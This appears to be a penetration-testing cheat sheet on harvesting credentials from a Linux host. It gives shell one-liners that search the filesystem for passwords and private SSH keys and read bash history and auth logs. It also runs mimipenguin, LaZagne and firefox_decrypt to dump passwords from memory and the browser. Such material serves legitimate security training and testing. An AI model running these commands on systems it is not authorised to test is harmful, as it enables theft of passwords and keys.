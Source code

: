 
**There are several sources that can provide us with credentials that we put in four categories:**

| Files              | History              | Memory               | Key-Rings                      |
|--------------------|----------------------|----------------------|--------------------------------|
| Configs            | Logs                 | Cache                | Browser stored credentials    |
| Databases          | Command-line History | In-memory Processing |                                |
| Notes              |                      |                      |                                |
| Scripts            |                      |                      |                                |
| Source codes       |                      |                      |                                |
| Cronjobs           |                      |                      |                                |
| SSH Keys           |                      |                      |                                |


## Files

```bash
## Configuration Files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

## Credentials in Configuration Files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

## Databases
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

## Notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"

## Scripts
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

## ssh keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"   ## private
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1        ## public

```

### cronjobs
can be found in /etc/cron.daily, /etc/cron.hourly, /etc/cron.monthly, /etc/cron.weekly , /etc/cron.d/

```bash
cat /etc/crontab
ls -la /etc/cron.*/
```

## History

### Command-line History
- look in `.bash_history` and other files like `.bashrc` or `.bash_profile` can contain important information.

```bash
tail -n5 /home/*/.bash*
```

### Logs
we have 3 types of logs: Application Logs,Event Logs, Service Logs and System Logs


| Log File           | Description                                         |
|--------------------|-----------------------------------------------------|
| /var/log/messages  | Generic system activity logs.                       |
| /var/log/syslog    | Generic system activity logs.                       |
| /var/log/auth.log  | (Debian) All authentication related logs.          |
| /var/log/secure    | (RedHat/CentOS) All authentication related logs.   |
| /var/log/boot.log  | Booting information.                                |
| /var/log/dmesg     | Hardware and drivers related information and logs. |
| /var/log/kern.log  | Kernel related warnings, errors and logs.          |
| /var/log/faillog   | Failed login attempts.                              |
| /var/log/cron      | Information related to cron jobs.                   |
| /var/log/mail.log  | All mail server related logs.                       |
| /var/log/httpd     | All Apache related logs.                            |
| /var/log/mysqld.log| All MySQL server related logs.                      |


```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
- [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

```bash
sudo python3 mimipenguin.py

sudo bash mimipenguin.sh 
```

- [https://github.com/AlessandroZ/LaZagne?](https://github.com/AlessandroZ/LaZagne?)
```
sudo python2.7 laZagne.py all
```

## Browsers
- [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)
```bash
ls -l .mozilla/firefox/ | grep default
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .


python3.9 firefox_decrypt.py

```
